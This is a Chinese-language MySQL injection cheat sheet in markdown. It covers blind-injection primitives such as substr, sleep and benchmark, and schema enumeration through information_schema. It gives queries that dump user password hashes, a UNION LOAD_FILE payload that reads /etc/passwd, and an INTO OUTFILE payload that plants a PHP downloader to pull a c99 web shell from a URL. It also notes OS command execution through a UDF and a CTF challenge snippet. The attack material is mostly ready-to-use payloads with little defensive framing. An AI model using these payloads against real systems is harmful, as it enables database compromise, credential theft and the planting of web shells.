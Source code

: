 ```yaml
---
title: "Mysql 注入"
date: 2016-04-21 11:50
---
```




```	
Select Nth Row	SELECT host,user FROM user ORDER BY host LIMIT 1 OFFSET 0; # rows numbered from 0

Select Nth Char	SELECT substr(‘abcd’, 3, 1); # returns c
Bitwise AND	SELECT 6 & 2; # returns 2
SELECT 6 & 1; # returns 0
ASCII Value -> Char	SELECT char(65); # returns A
Char -> ASCII Value	SELECT ascii(‘A’); # returns 65
Casting	SELECT cast(’1′ AS unsigned integer);
SELECT cast(’123′ AS char);

String Concatenation	SELECT CONCAT(‘A’,'B’); #returns AB
SELECT CONCAT(‘A’,'B’,'C’); # returns ABC
If Statement	SELECT if(1=1,’foo’,'bar’); — returns ‘foo’
Case Statement	SELECT CASE WHEN (1=1) THEN ‘A’ ELSE ‘B’ END; # returns A
Avoiding Quotes	SELECT 0×414243; # returns ABC
Time Delay	SELECT BENCHMARK(1000000,MD5(‘A’));
SELECT SLEEP(5); # >= 5.0.12
Make DNS Requests	Impossible?
Command Execution	If mysqld (<5.0) is running as root AND you compromise a DBA account you can execute OS commands by uploading a shared object file into /usr/lib (or similar).  The .so file should contain a User Defined Function (UDF).  raptor_udf.c explains exactly how you go about this.  Remember to compile for the target architecture which may or may not be the same as your attack platform.

```

## 0x01 信息收集

```
system_user()     系统用户名
user()            MYSQL用户名 
current_user()    当前用户名
session_user()    连接数据库的用户名
database()        当前数据库名
schema()          当前数据库名
version()         当前数据库版本信息
@@version
load_file()       MYSQL读取本地文件

@@datadir         Location of DB files
@@hostname        服务器主机名
```

```
List Users	            SELECT user FROM mysql.user; — priv
List Password Hashes	SELECT host, user, password FROM mysql.user; — priv

SELECT distinct(db) FROM mysql.db — priv
```

## 0x02 information_schema

> MySQL >= v5.0

```
# 查看数据库服务器上的数据库
SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA

# 查看某个数据库里面的数据表
SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema ='数据库名'

# 查看某个数据表里面的字段
#   默认当前数据库
SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name ='表名'
#   指定数据库
SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name ='表名' AND table_schema ='数据库名'

SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != 'mysql' AND table_schema != 'information_schema'

# find table which have a column called ‘username’
SELECT table_schema, table_name FROM information_schema.columns WHERE column_name = ‘username’

# List Privilege
SELECT grantee, privilege_type, is_grantable FROM information_schema.user_privileges;
```


## 0x03 注释

```
 -- comment     # '--' 前后有空格
 
#comment

/*comment*/
```

## 0x04 文件权限

查询用户读写文件操作权限：

```
# 需要root用户来执行 	MySQL 4/5
SELECT file_priv FROM mysql.user WHERE user = 'username';

# 普通用户都可以 	MySQL 5
SELECT grantee, is_grantable FROM information_schema.user_privileges WHERE privilege_type = 'file' AND grantee like '%username%'; 	
```

## 0x05 load_file()

用户有文件操作权限则可以读取文件

```
…' UNION ALL SELECT LOAD_FILE('/etc/passwd')    — priv, can only read world-readable files.


SELECT LOAD_FILE(0x2F6574632F706173737764);
```

要求：

```
文件必须在服务器上。
LOAD_FILE()函数操作文件的当前目录是@@datadir 。
MySQL用户必须拥有对此文件读取的权限。
文件大小必须小于 max_allowed_packet。
@@max_allowed_packet的默认大小是1047552 字节
文件不存在或不可读，返回NULL
```

## 0x06 写文件

如果用户有文件操作权限可以写文件

```
INTO OUTFILE/DUMPFILE

SELECT * FROM mytable INTO dumpfile '/tmp/somefile'; — priv, write to file system
```

```
SELECT '<? fwrite(fopen($_GET[f], \'w\'), file_get_contents($_GET[u])); ?>' INTO OUTFILE '/var/www/get.php'

http://localhost/get.php?f=shell.php&u=http://localhost/c99.txt
```

注：

```
INTO OUTFILE 不可以覆盖已存在的文件。
INTO OUTFILE 必须是最后一个查询。
引号是必须的，因为没有办法可以编码路径名
```
 
## 0x 实战

### group by with rollup

> alictf 2015 FuckMySQL

[group by document][4]

key code:

```php
$result = $db->query($sql);
if ($result->num_rows == 1) {
    $row = $result->fetch_assoc();
    if ($row['key2'] == $_POST['key2']) {
        echo "=.= Y are u so diao? I will give you a flag!  ".$flag;
        exit;
    }
} else {
    echo "I am fucking!";
}
```
 
## 参考：

[乌云 mySql 注入科普][1]

[乌云 mysql 注入技巧][3]

[crack mysql password][2]

[1]: http://drops.wooyun.org/tips/123
[2]: http://www.openwall.com/john/
[3]: http://drops.wooyun.org/tips/7299
[4]: http://dev.mysql.com/doc/refman/5.5/en/group-by-modifiers.html